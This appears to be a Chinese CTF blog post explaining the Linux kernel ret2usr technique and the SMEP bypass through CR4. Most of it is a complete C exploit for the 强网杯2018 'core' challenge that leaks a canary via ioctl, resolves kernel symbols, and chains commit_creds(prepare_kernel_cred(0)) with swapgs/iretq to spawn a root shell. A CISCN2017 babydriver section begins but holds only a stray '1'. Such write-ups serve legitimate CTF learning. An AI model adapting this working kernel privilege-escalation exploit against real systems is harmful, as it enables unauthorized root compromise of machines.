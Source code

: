 ```yaml
---
layout: post
title:  "Kernel ret2usr"
date:   2020-3-15
desc: ""
keywords: ""
categories: [Binary]
tags: []
icon: icon-html
---
```


# Kernel ret2usr

继续ROP

上一篇rop执行的commit_creds(prepare_kernel_cred(0))是在内核空间

获取commit_creds和prepare_kernel_cred地址后，利用函数指针在用户空间构造一个commit_creds(prepare_kernel_cred(0))很方便，⑧用再找一坨gadget，ret2usr就是返回到用户空间的commit_creds(prepare_kernel_cred(0))

ROP链

1. ROP执行用户空间的commit_creds(prepare_kernel_cred(0))
2. 返回到用户态执行system("/bin/sh")

但是有个叫SMEP的东西，这玩意开了禁止内核执行用户空间的代码

那就直接给ret2usr🐏了🐎？

👴选择给SMEP🐏了

判断是否开启smep是根据CR4寄存器的第20位，保护开启值为1，关闭值为0

来个mov cr4, ?

就给他🐏了



## 强网杯2018-core

没开SMEP，不用🐏，直接打

拿到地址之后构造commit_creds(prepare_kernel_cred(0))

```c
void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
}
```

在这个函数里放个`puts("[*]fucked!")`是龙鸣行为，直接崩

```c
// gcc exploit.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell()
{
    if(!getuid())
    {
        system("/bin/sh");
    }
    else
    {
        puts("[*]spawn shell error!");
    }
    exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;
size_t find_symbols()
{
    FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");

    if(kallsyms_fd < 0)
    {
        puts("[*]open kallsyms error!");
        exit(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd))
    {
        if(commit_creds & prepare_kernel_cred)
            return 0;

        if(strstr(buf, "commit_creds") && !commit_creds)
        {
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &commit_creds);
            printf("commit_creds addr: %p\n", commit_creds);
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("vmlinux_base addr: %p\n", vmlinux_base);
        }

        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
        {
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
        }
    }

    if(!(prepare_kernel_cred & commit_creds))
    {
        puts("[*]Error!");
        exit(0);
    }

}

void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

void set_off(int fd, long long idx)
{
    printf("[*]set off to %ld\n", idx);
    ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf)
{
    puts("[*]read to buf.");
    ioctl(fd, 0x6677889B, buf);

}

void core_copy_func(int fd, long long size)
{
    printf("[*]copy from user with size: %ld\n", size);
    ioctl(fd, 0x6677889A, size);
}

int main()
{
    save_status();
    int fd = open("/proc/core", 2);
    if(fd < 0)
    {
        puts("[*]open /proc/core error!");
        exit(0);
    }

    find_symbols();
    ssize_t offset = vmlinux_base - raw_vmlinux_base;

    set_off(fd, 0x40);

    char buf[0x40] = {0};
    core_read(fd, buf);
    size_t canary = ((size_t *)buf)[0];
    printf("[+]canary: %p\n", canary);

    size_t rop[0x1000] = {0};

    int i;
    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }

    rop[i++] = (size_t)get_root;            // root
    rop[i++] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
    rop[i++] = 0;
    rop[i++] = 0xffffffff81050ac2 + offset; // iretq; ret; 

    rop[i++] = (size_t)spawn_shell;         // rip 

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x800);
    core_copy_func(fd, 0xffffffffffff0100);
    return 0;
}
```



## CISCN2017 babydriver

1